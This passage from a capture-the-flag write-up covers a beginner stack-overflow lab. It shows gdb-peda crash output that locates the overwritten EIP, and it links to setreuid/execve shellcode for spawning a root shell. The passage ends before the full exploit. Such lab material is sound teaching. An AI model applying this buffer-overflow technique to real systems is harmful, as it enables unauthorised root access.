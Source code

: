 It is simple function which executes the `overflow` function.

One thing to note here is, as mentioned above, that there is neither an `execve()` nor a `setreuid()` functions are provided. Therefore, a shellcode which uses both would be ideal so that a shell is spawned as root.

Such shellcode can be obtained from [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-399.php) or another place of your choice.

To start developing the exploit, let's first crash the program and find the offset.

```bash
gdb-peda$ pattern_create 300
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)A---SNIP---'
gdb-peda$ r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAE---SNIP---'
Starting program: /home/level4/levelFive 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAA---SNIP---'
Enter your input:
Buf:
[Inferior 1 (process 2200) exited normally]
Warning: not running
```

A small bump in the road with binary is that the program will wait for the user's input upon launching it. This issue can be bypassed using a python library known as `pwntools`.

Let's re-run the program and provide the 300 bytes long string as the user input when requested.

```bash
Starting program: /home/level4/levelFive 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAA---SNIP---'
Enter your input: 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAA---SNIP---'
Buf: 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAA---SNIP---'

[----------------------------------registers-----------------------------------]
EAX: 0x134
EBX: 0x41424141 ('AABA')
ECX: 0x1
EDX: 0xf7fa9890 --> 0x0
ESI: 0xf7fa8000 --> 0x1d9d6c
EDI: 0xf7fa8000 --> 0x1d9d6c
EBP: 0x41412441 ('A$AA')
ESP: 0xffffd5f0 ("AA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAd---SNIP---"...)
EIP: 0x4341416e ('nAAC')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x4341416e
[------------------------------------stack-------------------------------------]
0000| 0xffffd5f0 ("AA-AA(AADAA;AA)---SNIP---"..)
0004| 0xffffd5f4 ("A(AADAA;AA)---SNIP---"...)
0008| 0xffffd5f8 ("DAA;AA)---SNIP---"...)
0012| 0xffffd5fc ("AA)---SNIP---"...)
0016| 0xffffd600 ("AEAAaAA0---SNIP---"...)
0020| 0xffffd604 ("aAA0AAFAAbAA1A---SNIP---"...)
0024| 0xffffd608 ("AAFAAbAA1AAGAA---SNIP---"...)
0028| 0xffffd60c ("AbAA1AAGAAcAA2A---SNIP---"...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x4341416e in ?? ()
```


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-101,290/	"IntroToStackOverflow"
[2]: https://github.com/longld/peda
[3]: <http://shell-storm.org/shellcode/files/shellcode-399.php>
[4]: <https://www.exploit-db.com/shellcodes/46809>